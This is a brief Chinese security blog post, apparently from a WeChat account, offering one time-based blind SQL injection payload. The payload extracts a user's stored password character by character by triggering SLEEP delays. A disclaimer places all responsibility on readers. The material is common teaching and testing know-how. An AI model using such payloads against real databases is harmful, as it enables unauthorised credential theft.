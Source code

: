 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg3NzU1NzIyMg==&mid=2247485077&idx=2&sn=4f9796950c81096290b7320d7e14b027

#  Sqli Tips：一条很好的sql注入探测语句  
z1  Z1sec   2025-06-19 03:44  
  
   
  
> **免责声明：**  
由于传播、利用本公众号Z1sec所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
  
   
  
Payload：  
  
   
  

```
IF (SUBSTRING ((SELECT pwd FROM users WHERE id = 1) ,1,1) = 'a', SLEEP (5) ,0)
```

  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/bnXduaibt5TE6xIGPOTtwtI3KMY7G6jKPm4jLpbFYPnkhCUkFXNTZf8xAXzYo0HKzicMY4agIPpicrhHFxicN81twg/640?wx_fmt=png&from=appmsg "")  
  
  
  
